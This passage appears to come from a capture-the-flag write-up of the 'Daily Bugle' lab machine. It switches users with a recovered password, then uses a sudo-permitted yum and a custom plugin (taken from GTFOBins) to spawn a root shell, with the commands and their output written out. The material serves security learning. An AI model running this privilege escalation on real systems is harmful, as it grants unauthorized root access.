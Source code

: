 Let's try this password to switch the user from ```apache``` to ```jjameson```. 

```shell
sh-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu
id
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
whoami
jjameson
```

It worked. We successfully changed to the user ```jjameson```.

Now, let's see what binaries can be run using sudo.

```shell
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

The user ```jjameson``` can run the binary ```yum``` with root privileges.

Navigate to GTFO bins.

>https://gtfobins.github.io/gtfobins/yum/#sudo

We can spawn an interactive root shell by loading a custom plugin as follows.

```shell
id    
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
whoami
jjameson
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
id
uid=0(root) gid=0(root) groups=0(root)
whoami
```